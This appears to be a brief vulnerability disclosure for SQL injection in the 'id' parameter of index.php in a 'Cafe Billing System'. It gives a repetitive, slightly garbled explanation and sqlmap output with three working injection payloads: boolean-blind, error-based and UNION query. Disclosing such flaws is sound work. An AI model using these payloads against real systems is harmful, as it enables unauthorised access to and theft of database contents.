


```
A SQL injection vulnerability exists in the Cafe Billing System index.php has Sqlinjection has Sqlinjection   The basic introduction  of the vulnerability is that SQL injection means that the web application does not strictly judge or filter the validity  of user input data.   An attacker can add additional SQL statements to the end of a predefined query statement in a web  application, and perform illegal operations without the knowledge of the administrator.   In this way,  the database server can be tricked into performing any unauthorized query and obtaining the corresponding data  information.
```





Sqlmap Attack

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8117=8117

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 OR (SELECT 3852 FROM(SELECT COUNT(*),CONCAT(0x717a717671,(SELECT (ELT(3852=3852,1))),0x71717a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-3905 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a717671,0x474b466a4a464c65687543595a706a494d576e65594c735575507a526e6344536b726f715068684e,0x71717a7671),NULL-- -
---
```